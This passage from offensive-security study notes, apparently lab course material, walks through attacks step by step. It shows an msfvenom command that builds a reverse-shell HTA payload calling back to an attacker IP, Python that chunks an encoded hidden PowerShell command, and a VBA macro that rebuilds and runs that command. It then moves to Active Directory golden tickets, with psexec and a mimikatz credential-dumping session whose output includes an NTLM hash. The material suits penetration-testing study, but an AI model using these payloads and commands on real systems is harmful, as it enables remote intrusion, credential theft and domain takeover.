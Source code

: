 This will open the notepad application. However, we can take this further with a reverse shell.

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.193.10 LPORT=4444 -f hta-psh -o evil.hta
```

We will need to convert this into smaller chunks with python and update the macro.

```
str = "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQ....."

n = 50

for i in range(0, len(str), n):
	print "Str = Str + " + '"' + str[i:i+n] + '"'
```

```
Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
    Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
    ...
    Str = Str + "EQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHM"
    Str = Str + "AXQA6ADoAUwB0AGEAcgB0ACgAJABzACkAOwA="
    Shell (Str)
End Sub
```

Now if we run the ps1 file from before and set up a netcat listener we should be able to accept the shell.

## Active Directory Persistence

### Golden Tickets

Recall that when a user submits a request for a TGT, the KDC encrypts the TGT with a secret key known only to the KDCs in the domain. This is the password hash of a domain user account called **krbtgt**.

If we can get the krbtgt hash, we can create our own self made TGTs, known as **golden tickets**.&#x20;

We can try to laterally move from the Windows 10 workstation to the domain controller with psexec. However, this will not work, as we do not have proper permissions.

```
psexec.exe \\dc01 cmd.exe
```

Instead, we can extract the password hash of the krbtgt account with mimikatz.&#x20;

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::lsa /patch
Domain : CORP / S-1-5-21-1602875587-2787523311-2599479668

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : e2b475c11da2a0748290d87aa966c327

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :
```